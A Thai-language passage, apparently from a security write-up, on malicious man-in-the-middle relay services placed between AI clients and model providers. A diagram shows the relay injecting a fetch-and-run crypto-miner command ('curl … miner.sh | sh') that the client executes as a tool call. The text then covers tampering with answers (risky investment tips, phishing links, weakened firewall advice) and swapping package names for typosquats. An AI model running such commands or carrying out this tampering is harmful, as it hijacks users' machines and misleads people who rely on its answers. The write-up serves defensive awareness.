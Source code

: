 ```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant Client as ไคลเอนต์
    participant MitMRouters as บริการรีเลย์ MITM
    participant LLM as บริการโมเดล
    participant ThirdParty as เซิร์ฟเวอร์ผู้โจมตี

    User->>Client: ป้อนคำสั่งใดๆ
    Client->>MitMRouters: ส่งคำขอ API
    MitMRouters->>LLM: โอนคำขอ
    LLM-->>MitMRouters: ส่งคืนการตอบกลับปกติ

    MitMRouters->>MitMRouters: อินเจคคำสั่งใช้ทรัพยากร
    MitMRouters->>Client: ส่งคืนการตอบกลับที่ถูกแก้ไข
    Client->>Client: รันคำสั่ง Tool Use ที่ไม่ได้คาดการณ์:<br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: ใช้ทรัพยากรเพื่อประโยชน์ผู้โจมตีต่อเนื่อง
```

### วิธีที่สี่: การโจมตีทางสังคมและการแก้ไขเนื้อหา (Social Engineering & Content Tampering)

เป็นหนึ่งในความเสี่ยงที่ควรจับตามองมากที่สุด เพราะมันไม่พึ่งพาการรันโค้ดใดๆ แต่ใช้การเปลี่ยนแปลงเนื้อหาข้อความที่โมเดลส่งคืนโดยตรง โดยอาศัยความไว้วางใจของผู้ใช้ต่อ AI

1. **ดักจับและวิเคราะห์เนื้อหา**: บริการรีเลย์ดักจับคำขอผู้ใช้และการตอบกลับของโมเดล จากนั้นวิเคราะห์เนื้อหาเชิงความหมาย
2. **แก้ไขข้อความ**: หากพบฉากหน้าเฉพาะ จะแก้ไขข้อความตอบกลับแบบเจาะจง
    * **คำแนะนำการลงทุน**: ผู้ใช้ถามคำแนะนำการลงทุน บริการรีเลย์เพิ่ม "คำแนะนำ" ที่ชื่นชมสินทรัพย์เสี่ยงในคำตอบของโมเดล
    * **เปลี่ยนลิงค์**: ผู้ใช้ขอให้ให้ลิงค์ดาวน์โหลดซอฟต์แวร์อย่างเป็นทางการ บริการรีเลย์เปลี่ยน URL เป็นลิงค์เว็บไซต์ฟิชชิ่ง
    * **ลดมาตรฐานความปลอดภัย**: ผู้ใช้สอบถามวิธีตั้งค่าไฟวอลล์ บริการรีเลย์แก้ไขคำแนะนำของโมเดล โดยเจตนาทิ้งพอร์ตที่ไม่ปลอดภัยไว้ เพื่อเตรียมการโจมตีขั้นต่อไป
3. **ผู้ใช้ยอมรับ**: ผู้ใช้ยอมรับคำแนะนำที่ถูกแก้ไขแล้ว เนื่องจากไว้วางใจในความน่าเชื่อถือและวัตถุประสงค์ของ AI สิ่งนี้อาจนำไปสู่การสูญเสียเงินทุน การถูกขโมยบัญชี หรือระบบถูกเจาะ

ความเสี่ยงนี้สามารถหลบเลี่ยงมาตรการป้องกันทางเทคนิคทั้งหมด เช่น แซนด์บอกซ์ คอนเทนเนอร์ และรายการขาวของคำสั่ง และส่งผลกระทบโดยตรงต่อกระบวนการตัดสินใจของมนุษย์

### วิธีที่ห้า: ความเสี่ยงในห่วงโซ่อุปทานซอฟต์แวร์ (Software Supply Chain Risk)

เป้าหมายของความเสี่ยงนี้คือโครงการทั้งหมดของนักพัฒนา ไม่ใช่เพียงการโต้ตอบครั้งเดียว

1. **แก้ไขคำสั่งการพัฒนา**: เมื่อนักพัฒนาถามวิธีติดตั้งไลบรารีหรือตั้งค่าโครงการ บริการรีเลย์จะแก้ไขคำสั่งที่ตอบกลับ
    * **ยึดชื่อแพ็กเกจ**: ผู้ใช้ถามว่า "จะติดตั้งไลบรารี `requests` ด้วย pip อย่างไร?" บริการรีเลย์เปลี่ยนคำตอบจาก `pip install requests` เป็น `pip install requestz` (แพ็กเกจคล้ายกันที่เป็นอันตราย)
    * **อินเจคไฟล์กำหนดค่า**: ผู้ใช้ขอให้สร้างไฟล์ `package.json` บริการรีเลย์เพิ่มรายการพึ่งพาที่เสี่ยงใน `dependencies`
2. **ฝังประตูหลัง**: นักพัฒนาติดตั้งแพ็กเกจอันตรายโดยไม่รู้ตัว สิ่งนี้ไม่เพียงส่งผลต่อนักพัฒนาเอง แต่ยังส่งผลต่อผู้ใช้ปลายทางจำนวนมากที่ได้รับโครงการนี้
